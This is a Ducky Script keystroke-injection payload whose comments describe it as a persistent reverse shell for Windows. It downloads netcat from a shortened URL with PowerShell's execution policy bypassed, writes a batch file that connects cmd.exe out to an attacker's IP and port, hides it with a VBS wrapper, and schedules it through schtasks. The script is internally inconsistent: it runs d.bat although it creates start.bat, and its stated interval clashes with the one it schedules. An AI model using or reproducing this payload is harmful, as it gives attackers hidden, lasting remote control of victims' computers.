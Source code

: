   REM [Persistent reverse shell that runs in the background every minute.]
  REM [replace [IP] with your listening IP]
  REM [replace [PORT] with a port of your choice]
  REM [opens command window]
  GUI r
  DELAY 300
  STRING cmd
  ENTER
  DELAY 500
  REM [downloads netcat and saves it as a.exe in the folder C:\System]
  STRING cd / & mkdir System & cd System & echo (wget 'https://tinyurl.com/y88r9epk' -OutFile a.exe) > b.PS1 & powershell -ExecutionPolicy ByPass -File b.ps1
  ENTER
  DELAY 1000
  REM [creates start.bat which triggers the reverse shell]
  STRING echo START /MIN a.exe [IP] [PORT] -e cmd.exe -d ^& exit > start.bat
  ENTER
  DELAY 100
  REM [creates three lines of commands in a script file telling the start.bat file to run in the background]
  STRING echo Set WshShell = CreateObject('WScript.Shell') > c.vbs
  ENTER
  DELAY 100
  STRING echo WshShell.Run chr(34) ^& C:/System/d.bat ^& Chr(34), 0 >> c.vbs
  ENTER
  DELAY 50
  STRING echo Set WshShell = Nothing >>> c.vbs
  ENTER
  DELAY 50
  REM [schedules the script file to run every 5 minutes (change the number 5 to a different time if you need)]
  STRING schtasks /create /tn TaskSystem /tr C:/System/c.vbs /sc minute /mo 5 
  ENTER
  DELAY 75
  REM [runs start.bat and closes the command window]
  STRING d.bat & exit
  ENTER